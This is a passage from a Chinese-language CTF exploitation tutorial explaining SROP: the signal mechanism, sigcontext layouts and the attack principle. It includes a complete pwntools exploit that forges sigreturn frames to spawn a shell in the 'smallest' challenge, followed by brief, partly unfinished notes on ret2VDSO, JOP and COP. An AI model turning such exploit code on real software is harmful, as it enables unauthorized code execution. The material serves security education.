        '__init__.py  main.c  roputils.py  stage1.py\tstage3.py  stage5.py\n'
    core         main    roptool.py   roputils.pyc    stage2.py  stage4.py  stage6.py
    __init__.py  main.c  roputils.py  stage1.py    stage3.py  stage5.py

题目
~~~~

SROP
----

基本介绍
~~~~~~~~

SROP(Sigreturn Oriented Programming)于2014年被Vrije Universiteit Amsterdam的Erik Bosman提出，其相关研究\ **``Framing Signals — A Return to Portable Shellcode``**\ 发表在安全顶级会议\ `Oakland
2014 <http://www.ieee-security.org/TC/SP2014>`__\ 上，被评选为当年的\ `Best Student Papers <http://www.ieee-security.org/TC/SP2014/awards.html>`__\ 。其中相关的paper以及slides的链接如下：

`paper <http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf>`__

`slides <https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf>`__

其中，\ ``sigreturn``\ 是一个系统调用，在类unix系统发生signal的时候会被间接地调用。

signal机制
~~~~~~~~~~

signal机制是类unix系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用kill来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：

.. figure:: /pwn/stackoverflow/figure/ProcessOfSignalHandlering.png
   :alt: Process of Signal Handlering

1. 内核向某个进程发送signal机制，该进程会被暂时挂起，进入内核态。

2. 内核会为该进程保存相应的上下文，\ **主要是将所有寄存器压入栈中，以及压入signal信息，以及指向sigreturn的系统调用地址**\ 。此时栈的结构如下图所示，我们称ucontext以及siginfo这一段为Signal
   Frame。\ **需要注意的是，这一部分是在用户进程的地址空间的。**\ 之后会跳转到注册过的signal handler中处理相应的signal。因此，当signal handler执行完之后，就会执行sigreturn代码。

.. figure:: /pwn/stackoverflow/figure/signal2-stack.png
   :alt: signal2-stack

   signal2-stack

对于signal Frame来说，不同会因为架构的不同而因此有所区别，这里给出分别给出x86以及x64的sigcontext

x86

.. code:: c

    struct sigcontext
    {
      unsigned short gs, __gsh;
      unsigned short fs, __fsh;
      unsigned short es, __esh;
      unsigned short ds, __dsh;
      unsigned long edi;
      unsigned long esi;
      unsigned long ebp;
      unsigned long esp;
      unsigned long ebx;
      unsigned long edx;
      unsigned long ecx;
      unsigned long eax;
      unsigned long trapno;
      unsigned long err;
      unsigned long eip;
      unsigned short cs, __csh;
      unsigned long eflags;
      unsigned long esp_at_signal;
      unsigned short ss, __ssh;
      struct _fpstate * fpstate;
      unsigned long oldmask;
      unsigned long cr2;
    };

x64

.. code:: c++

    struct _fpstate
    {
      /* FPU environment matching the 64-bit FXSAVE layout.  */
      __uint16_t		cwd;
      __uint16_t		swd;
      __uint16_t		ftw;
      __uint16_t		fop;
      __uint64_t		rip;
      __uint64_t		rdp;
      __uint32_t		mxcsr;
      __uint32_t		mxcr_mask;
      struct _fpxreg	_st[8];
      struct _xmmreg	_xmm[16];
      __uint32_t		padding[24];
    };
    struct sigcontext
    {
      __uint64_t r8;
      __uint64_t r9;
      __uint64_t r10;
      __uint64_t r11;
      __uint64_t r12;
      __uint64_t r13;
      __uint64_t r14;
      __uint64_t r15;
      __uint64_t rdi;
      __uint64_t rsi;
      __uint64_t rbp;
      __uint64_t rbx;
      __uint64_t rdx;
      __uint64_t rax;
      __uint64_t rcx;
      __uint64_t rsp;
      __uint64_t rip;
      __uint64_t eflags;
      unsigned short cs;
      unsigned short gs;
      unsigned short fs;
      unsigned short __pad0;
      __uint64_t err;
      __uint64_t trapno;
      __uint64_t oldmask;
      __uint64_t cr2;
      __extension__ union
        {
          struct _fpstate * fpstate;
          __uint64_t __fpstate_word;
        };
      __uint64_t __reserved1 [8];
    };

​

1. signal handler返回后，内核为执行sigreturn系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新pop回对应的寄存器，最后恢复进程的执行。其中，32位的sigreturn的调用号为77，64位的系统调用号为15。

攻击原理
~~~~~~~~

仔细回顾一下内核在signal信号处理的过程中的工作，我们可以发现，内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在Signal Frame中。但是需要注意的是：

-  Signal Frame被保存在用户的地址空间中，所以用户是可以读写的。
-  由于内核与信号处理程序无关(kernel agnostic about signal handlers)，它并不会去记录这个signal对应的Signal Frame，所以当执行sigreturn系统调用时，此时的Signal
   Frame并不一定是之前内核为用户进程保存的Signal Frame。

说到这里，其实，SROP的基本利用原理也就出现了。下面举两个简单的例子。

获取shell
^^^^^^^^^

首先，我们假设攻击者可以控制用户进程的栈，那么它就可以伪造一个Signal Frame，如下图所示，这里以64位为例子，给出Signal Frame更加详细的信息

.. figure:: /pwn/stackoverflow/figure/srop-example-1.png
   :alt: signal2-stack

   signal2-stack

当系统执行完sigreturn系统调用之后，会执行一系列的pop指令以便于恢复相应寄存器的值，当执行到rip时，就会将程序执行流指向syscall地址，根据相应寄存器的值，此时，便会得到一个shell。

system call chains
^^^^^^^^^^^^^^^^^^

需要指出的是，上面的例子中，我们只是单独的获得一个shell。有时候，我们可能会希望执行一系列的函数。我们只需要做两处修改即可

-  **控制栈指针。**
-  **把原来rip指向的\ ``syscall`` gadget换成\ ``syscall; ret`` gadget。**

如下图所示 ，这样当每次syscall返回的时候，栈指针都会指向下一个Signal Frame。因此就可以执行一系列的sigreturn函数调用。

.. figure:: /pwn/stackoverflow/figure/srop-example-2.png
   :alt: signal2-stack

   signal2-stack

后续
^^^^

需要注意的是，我们在构造ROP攻击的时候，需要满足下面的条件

-  **可以通过栈溢出来控制栈的内容**
-  **需要知道相应的地址**
    -  **"/bin/sh"**
    -  **Signal Frame**
    -  **syscal**
    -  **sigreturn**
    -  需要有够大的空间来塞下整个sigal frame

此外，关于sigreturn以及syscall;ret这两个gadget在上面并没有提及。提出该攻击的论文作者发现了这些gadgets出现的某些地址：

.. figure:: /pwn/stackoverflow/figure/srop-gadget-1.png
   :alt: gadget1


并且，作者发现，有些系统上SROP的地址被随机化了，而有些则没有。比如说\ ``Linux < 3.3 x86_64``\ （在Debian 7.0， Ubuntu Long Term Support， CentOS
6系统中默认内核），可以直接在vsyscall中的固定地址处找到syscall&return代码片段。如下

.. figure:: /pwn/stackoverflow/figure/srop-gadget-2.png
   :alt: gadget1


但是目前它已经被\ ``vsyscall-emulate``\ 和\ ``vdso``\ 机制代替了。此外，目前大多数系统都会开启ASLR保护，所以相对来说这些gadgets都并不容易找到。

值得一说的是，对于sigreturn系统调用来说，在64位系统中，sigreturn系统调用对应的系统调用号为15，只需要RAX=15，并且执行syscall即可实现调用syscall调用。而RAX寄存器的值又可以通过控制某个函数的返回值来间接控制，比如说read函数的返回值为读取的字节数。

利用工具
~~~~~~~~

**值得一提的是，在目前的pwntools中已经集成了对于srop的攻击。**

示例
~~~~

这里以360春秋杯中的smallest-pwn为例进行简单介绍。基本步骤如下

**确定文件基本信息**

.. code:: text

    ➜  smallest file smallest     
    smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped

可以看到该程序为64位静态链接版本。

**检查保护**

.. code:: text

    ➜  smallest checksec smallest     
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

程序主要开启了NX保护。

**漏洞发现**

实用IDA直接反编译看了一下，发现程序就几行汇编代码，如下

.. code:: asm

    public start
    start proc near
    xor     rax, rax
    mov     edx, 400h
    mov     rsi, rsp
    mov     rdi, rax
    syscall
    retn
    start endp

根据syscall的编号为0，可以知道改程序执行的指令为read(0,$rsp,400)，即向栈顶读入400个字符。毫无疑问，这个是有栈溢出的。

**利用思路**

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。重要思路如下

-  通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
-  通过syscall执行execve("/bin/sh",0,0)来获取shell。

**漏洞利用程序**

.. code:: python

    from pwn import *
    from LibcSearcher import *
    small = ELF('./smallest')
    if args['REMOTE']:
        sh = remote('127.0.0.1', 7777)
    else:
        sh = process('./smallest')
    context.arch = 'amd64'
    context.log_level = 'debug'
    syscall_ret = 0x00000000004000BE
    start_addr = 0x00000000004000B0
    ## set start addr three times
    payload = p64(start_addr) * 3
    sh.send(payload)

    ## modify the return addr to start_addr+3
    ## so that skip the xor rax,rax; then the rax=1
    ## get stack addr
    sh.send('\xb3')
    stack_addr = u64(sh.recv()[8:16])
    log.success('leak stack addr :' + hex(stack_addr))

    ## make the rsp point to stack_addr
    ## the frame is read(0,stack_addr,0x400)
    sigframe = SigreturnFrame()
    sigframe.rax = constants.SYS_read
    sigframe.rdi = 0
    sigframe.rsi = stack_addr
    sigframe.rdx = 0x400
    sigframe.rsp = stack_addr
    sigframe.rip = syscall_ret
    payload = p64(start_addr) + 'a' * 8 + str(sigframe)
    sh.send(payload)

    ## set rax=15 and call sigreturn
    sigreturn = p64(syscall_ret) + 'b' * 7
    sh.send(sigreturn)

    ## call execv("/bin/sh",0,0)
    sigframe = SigreturnFrame()
    sigframe.rax = constants.SYS_execve
    sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
    sigframe.rsi = 0x0
    sigframe.rdx = 0x0
    sigframe.rsp = stack_addr
    sigframe.rip = syscall_ret

    frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
    print len(frame_payload)
    payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
    sh.send(payload)
    sh.send(sigreturn)
    sh.interactive()

其基本流程为

-  读取三个程序起始地址
-  程序返回时，利用第一个程序起始地址读取地址，修改返回地址(即第二个程序起始地址)为源程序的第二条指令，并且会设置rax=1
-  那么此时将会执行write(1,$esp,0x400)，泄露栈地址。
-  利用第三个程序起始地址进而读入payload
-  再次读取构造sigreturn调用，进而将向栈地址所在位置读入数据，构造execve('/bin/sh',0,0)
-  再次读取构造sigreturn调用，从而获取shell。

题目
~~~~

-  `Defcon 2015 Qualifier: fuckup <https://brant-ruan.github.io/resources/Binary/learnPwn/fuckup_56f604b0ea918206dcb332339a819344>`__

参考阅读

-  `Sigreturn Oriented Programming (SROP) Attack攻击原理 <http://www.freebuf.com/articles/network/87447.html>`__
-  `SROP by Angle Baby <https://www.slideshare.net/AngelBoy1/sigreturn-ori>`__
-  `系统调用 <http://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html>`__

ret2VDSO
--------

VDSO介绍
~~~~~~~~

什么是VDSO(Virtual Dynamically-linked Shared
Object)呢？听其名字，大概是虚拟动态链接共享对象，所以说它应该是虚拟的，与虚拟内存一直，在计算机中本身并不存在。具体来说，它是将内核态的调用映射到用户地址空间的库。那么它为什么会存在呢？这是因为有些系统调用经常被用户使用，这就会出现大量的用户态与内核态切换的开销。通过vdso，我们可以大量减少这样的开销，同时也可以使得我们的路径更好。这里路径更好指的是，我们不需要使用传统的int
0x80来进行系统调用，不同的处理器实现了不同的快速系统调用指令

-  intel实现了sysenter，sysexit
-  amd实现了syscall，sysret

当不同的处理器架构实现了不同的指令时，自然就会出现兼容性问题，所以linux实现了vsyscall接口，在底层会根据具体的结构来进行具体操作。而vsyscall就实现在vdso中。

这里，我们顺便来看一下vdso，在Linux(kernel 2.6 or upper)中执行ldd /bin/sh, 会发现有个名字叫linux-vdso.so.1(老点的版本是linux-gate.so.1)的动态文件, 而系统中却找不到它, 它就是VDSO。 例如:

.. code:: shell

    ➜  ~ ldd /bin/sh           
        linux-vdso.so.1 =>  (0x00007ffd8ebf2000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f84ff2f9000)
        /lib64/ld-linux-x86-64.so.2 (0x0000560cae6eb000)

除了快速系统调用，glibc也提供了VDSO的支持, open(), read(), write(), gettimeofday()都可以直接使用VDSO中的实现。使得这些调用速度更快。 内核新特性在不影响glibc的情况下也可以更快的部署。

这里我们以intel的处理器为例，进行简单说明。

其中sysenter的参数传递方式与int 0x80一致，但是我们可能需要自己布置好 function prolog（32位为例）

.. code:: asm

    push ebp
    mov ebp,esp

此外，如果我们没有提供functtion prolog的话，我们还需要一个可以进行栈迁移的gadgets，以便于可以改变栈的位置。

原理
~~~~

待补充。

题目
~~~~

-  **Defcon 2015 Qualifier fuckup**

参考

-  http://man7.org/linux/man-pages/man7/vdso.7.html
-  http://adam8157.info/blog/2011/10/linux-vdso/

JOP
---

Jump-oriented programming

COP
---

Call-oriented programming
